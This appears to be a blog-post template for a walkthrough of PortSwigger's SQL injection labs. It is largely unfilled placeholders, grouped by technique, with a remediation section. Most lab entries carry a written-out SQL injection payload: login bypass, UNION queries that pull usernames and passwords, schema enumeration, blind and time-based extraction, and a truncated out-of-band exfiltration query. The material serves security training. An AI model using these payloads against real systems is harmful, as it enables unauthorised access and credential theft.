

> **What this is** — A single walkthrough of an entire PortSwigger category, grouped by *technique* rather than lab number. Each lab gets a short subsection: the payload and the one thing it teaches. Labs that taught something non-obvious get linked out to a standalone deep-dive.
{: .prompt-info }

## Overview

One paragraph: what this bug class is, why it matters, and how the category is structured. Set expectations — this post is the category's completion artifact.

- **Category:** SQL Injection
- **Labs covered:** X of Y
- **Difficulty span:** Apprentice → Practitioner → Expert
- **Deep-dives spun out:** links to any standalone posts (see end).

### How the labs cluster



## Mental model

Before the labs — the core idea in your own words. What makes input "injectable," where SQLi lives, and the decision tree you run when you suspect it (visible output? errors? blind? out-of-band?). This is the part a reader actually keeps.

---

## Technique 1 — Retrieving hidden data & subverting application logic

**Idea:** Brief explanation of the sub-technique and when it applies.

### Lab: WHERE clause — retrieving hidden data
- **Difficulty:** Apprentice
- **Payload:**
  ```sql
  '+OR+1=1--
  ```
- **Insight:** The one thing this lab teaches (e.g. comment-out the rest of the query to neutralise trailing conditions).

### Lab: Login bypass via SQL injection
- **Difficulty:** Apprentice
- **Payload:**
  ```sql
  administrator'--
  ```
- **Insight:** ...

---

## Technique 2 — UNION attacks

**Idea:** Use `UNION` to append a second result set; prerequisites are matching column count and a compatible column type.

### Lab: Determining the number of columns
- **Payload:**
  ```sql
  '+UNION+SELECT+NULL,NULL,NULL--
  ```
- **Insight:** ...

### Lab: Finding a column with a useful data type
- **Payload:**
  ```sql
  '+UNION+SELECT+NULL,'abc',NULL--
  ```
- **Insight:** ...

### Lab: Retrieving data from other tables
- **Payload:**
  ```sql
  '+UNION+SELECT+username,password+FROM+users--
  ```
- **Insight:** ...

### Lab: Retrieving multiple values in a single column
- **Payload:**
  ```sql
  '+UNION+SELECT+NULL,username||'~'||password+FROM+users--
  ```
- **Insight:** String concatenation differs per DBMS — note the syntax that bit you.

---

## Technique 3 — Examining the database

**Idea:** Enumerate version, schema, and table/column metadata before exfiltrating.

### Lab: Querying the database type and version (Oracle / MySQL / etc.)
- **Payload:**
  ```sql
  '+UNION+SELECT+banner,NULL+FROM+v$version--
  ```
- **Insight:** DBMS fingerprinting changes everything downstream.

### Lab: Listing the database contents (non-Oracle / Oracle)
- **Payload:**
  ```sql
  '+UNION+SELECT+table_name,NULL+FROM+information_schema.tables--
  ```
- **Insight:** ...

---

## Technique 4 — Blind: conditional responses & errors

**Idea:** No direct output — infer data one boolean at a time from response differences or triggered errors.

### Lab: Conditional responses
- **Payload:**
  ```sql
  '+AND+SUBSTRING((SELECT+password+FROM+users+WHERE+username='administrator'),1,1)='a'--
  ```
- **Insight:** ...

### Lab: Conditional errors
- **Payload:**
  ```sql
  '+AND+(SELECT+CASE+WHEN+(1=1)+THEN+to_char(1/0)+ELSE+NULL+END+FROM+dual)--
  ```
- **Insight:** Force an error to act as your "true" signal when content doesn't differ.

> A genuinely non-obvious lab? Spin it out and link it: [Blind SQLi — conditional errors deep-dive](/posts/...).
{: .prompt-tip }

---

## Technique 5 — Blind: time delays & out-of-band (OAST)

**Idea:** When responses are identical and errors are swallowed, use timing or out-of-band network interactions as your oracle.

### Lab: Time delays
- **Payload:**
  ```sql
  '+||+pg_sleep(10)--
  ```
- **Insight:** ...

### Lab: Time delays + information retrieval
- **Insight:** ...

### Lab: Out-of-band (OAST) interaction / data exfiltration
- **Payload:**
  ```sql
  '+UNION+SELECT+extractvalue(xmltype('<?xml ...'),'/l')+FROM+dual--
  ```
- **Insight:** Burp Collaborator as the exfil channel — note setup gotchas.

---

## Cross-cutting lessons

Patterns that emerged across the whole category — DBMS quirks, comment syntax differences, encoding pitfalls, when to reach for sqlmap vs hand-crafting. This section is the payoff of going depth-first.

## Remediation (applies to all of the above)

- Parameterised queries / prepared statements everywhere.
- Least-privilege DB accounts.
- Allow-list input; never build queries by concatenation.

## Deep-dives spun out of this post

- [Lab name — why it earned its own post](/posts/...)

## References

- PortSwigger SQL injection: <https://portswigger.net/web-security/sql-injection>
- SQLi cheat sheet: <https://portswigger.net/web-security/sql-injection/cheat-sheet>
- CWE-89: <https://cwe.mitre.org/data/definitions/89.html>
